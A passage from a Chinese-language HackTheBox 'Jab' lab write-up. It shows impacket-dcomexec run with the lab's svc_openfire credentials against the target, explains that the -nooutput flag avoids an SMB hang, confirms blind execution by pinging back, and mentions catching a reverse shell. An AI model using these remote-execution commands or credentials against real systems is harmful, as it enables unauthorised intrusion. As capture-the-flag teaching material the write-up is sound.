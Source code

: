 按照文章中的命令执行，发现卡在“SMBv3.0 dialect used”，最后发现用`-nooutput`选项就好了：  
*因为卡在SMB连接，而help看这个选项说“no SMB connection created”。*  
*而后细看上面文章提到的`-silentcommand`，试了下也行，可能理由一样，就是文章里说的“since the script is using an SMB share to write and fetch the output, and our low-privileged user cannot write to any.”？*

```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
^C[-] 


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20 -nooutput
Impacket v0.11.0 - Copyright 2023 Fortra

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ 
```


## Initial Access

由于无法输出命令结果到终端，为了验证命令是否真的被执行，于是尝试ping自己并监听网卡，发现收到ping包——即命令可成功执行：
![HTB-Jab-ping](./../evidence-img/HTB-Jab-ping.png)


接下来就准备反弹shell，成功接收：
![HTB-Jab-foothold](./../evidence-img/HTB-Jab-foothold.png)




## flag: user
